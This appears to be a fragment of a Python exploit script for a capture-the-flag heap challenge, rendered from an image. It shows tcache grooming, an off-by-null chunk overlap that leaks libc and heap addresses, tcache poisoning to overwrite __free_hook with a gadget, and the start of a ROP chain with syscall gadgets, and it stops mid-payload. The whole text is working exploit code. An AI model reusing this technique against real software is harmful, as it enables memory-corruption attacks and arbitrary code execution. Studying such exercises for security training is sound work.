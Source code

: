 ```python
add(0x28,'pass') # 56
add(0x28,'pass') # 57
add(0x28,'pass') # 58
add(0x28,'pass') # 59
add(0x28,'pass-loss control') # 60
add(0x4F8,'to be off-by-null') # 61

for i in range(7):
    add(0x28,'tcache')
for i in range(7):
    delete(61 + 1 + i)

delete(54)
delete(60)
delete(53)

for i in range(7):
    add(0x28,'tcache')

# 53,54,60,62,63,64,65

add(0x28,'\x10') # 53->66
## stashed ##
add(0x28,'\x10') # 54->67
add(0x28,'a' * 0x20 + p64(0x240)) # 60->68
delete(61)

add(0x140,'pass') # 61
show(56)
libc_base = u64(sh.recv(6).ljust(0x8,'\x00')) - libc.sym["__malloc_hook"] - 0x10 - 0x60
log.success("libc_base:" + hex(libc_base))
__free_hook_addr = libc_base + libc.sym["__free_hook"]

add(0x28,'pass') # 69<-56
add(0x28,'pass') # 70<-57
delete(70)
delete(69)
show(56)
heap_base = u64(sh.recv(6).ljust(0x8,'\x00')) - 0x1A0
log.success("heap_base:" + hex(heap_base))

add(0x28,p64(0) * 2) # 69<-56
add(0x28,p64(0) * 2) # 70<-57
add(0x28,p64(0) * 2) # 71<-58
delete(68)
add(0x60,p64(0) * 5 + p64(0x31) + p64(__free_hook_addr)) # 68
add(0x28,'pass') # 72
## alloc to __free_hook ##
magic_gadget = libc_base + 0x12be97
add(0x28,p64(magic_gadget)) # 73

pop_rdi_ret = libc_base + 0x26542
pop_rsi_ret = libc_base + 0x26f9e
pop_rdx_ret = libc_base + 0x12bda6
syscall_ret = libc_base + 0xcf6c5
pop_rax_ret = libc_base + 0x47cf8
ret = libc_base + 0xc18ff

payload_addr = heap_base + 0x270
str_flag_addr = heap_base + 0x270 + 5 * 0x8 + 0xB8
rw_addr = heap_base 

payload = p64(libc_base + 0x55E35) # rax
```